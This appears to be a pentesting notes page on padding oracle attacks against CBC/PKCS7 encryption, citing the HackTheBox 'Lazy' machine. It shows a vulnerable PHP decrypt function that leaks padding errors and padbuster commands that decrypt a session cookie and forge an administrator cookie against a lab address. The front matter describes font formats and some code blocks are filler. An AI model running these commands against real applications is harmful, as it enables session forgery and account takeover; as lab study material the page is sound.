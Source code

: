 ```yaml
---
layout: post
title: Padding Oracle Attack
description: What is the difference between various font formats?
summary: What is the difference between various font formats?
tags: [web,crypto,foothold]
minute: 1
---
```


## Overview
CBD mode PKCS7 format uses padding to complete the block length when encrypting plaintext.

![](Padding%20Oracle%20Attack/padding.png)

Attacker can leverage this behaviour to get the plaintext by manipulating the ciphertext byte by byte in a trial and error fashion and observing whether the application will return error (invalid padding) or success (valid padding).

```
this is a test aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

This kind of crypto may be safe but the real attack surface is on whether your app is returning error on invalid padding which will give an attacker chance to brute force the correct plaintext.

```php
// example file from HTB lazy
function decryptString($encryptedText, $passphrase) {
  $encrypted = base64_decode($encryptedText);
  $iv_size =  mcrypt_get_iv_size(MCRYPT_DES, MCRYPT_MODE_CBC);
  $iv = substr($encrypted,0,$iv_size);
  $dec = mcrypt_decrypt(MCRYPT_DES, $passphrase, substr($encrypted,$iv_size), MCRYPT_MODE_CBC, $iv);
  $str = pkcs5_unpad($dec); 
  if ($str === false) {
    echo "Invalid padding"; // really? you want to be hacked?
    die();                  // maybe let's replace that or
  }                         // remove entirely?
  else {
    return $str; 
  }
}
```

```
echo hello
```

This is also a type of CCA or Chosen Ciphertext Attack.

## Details on ciphertext manipulation
Go to "The Theory" part of this [link](https://pentesterlab.com/exercises/padding_oracle/course).

## Detection
* Try manipulating cookie values. See if webapp will error response such as `invalid padding` or `500`,

## Exploitation
* Using padbuster

```bash
# installation
sudo apt-get install padbuster

# detection
padbuster http://10.10.10.10/index.php "RVJDQrwUdTRWJUVUeBKkEA==" 8 -encoding 0 -cookies "login=RVJDQrwUdTRWJUVUeBKkEA=="

# gets an admin cookie
padbuster http://10.10.10.10/index.php "RVJDQrwUdTRWJUVUeBKkEA==" 8 -encoding 0 -cookies "login=RVJDQrwUdTRWJUVUeBKkEA==" -plaintext "user=administrator"
```

* Using [bit flippingattack](https://0xdf.gitlab.io/2020/07/29/htb-lazy.html#path-2-bit-flip-attack). Here is another resource from [ippsec](https://www.youtube.com/watch?v=3VxZNflJqsw&t=460s) using Burp.

## References
* [Padding Oracle - HackTricks](https://book.hacktricks.xyz/cryptography/padding-oracle-priv#padding-oracle)
* [HTB Lazy](https://www.youtube.com/watch?v=3VxZNflJqsw)
* [Mathematical Explanation](https://www.youtube.com/watch?v=aH4DENMN_O4&t=873s)
* [The Padding Oracle Attack](https://robertheaton.com/2013/07/29/padding-oracle-attack/) 
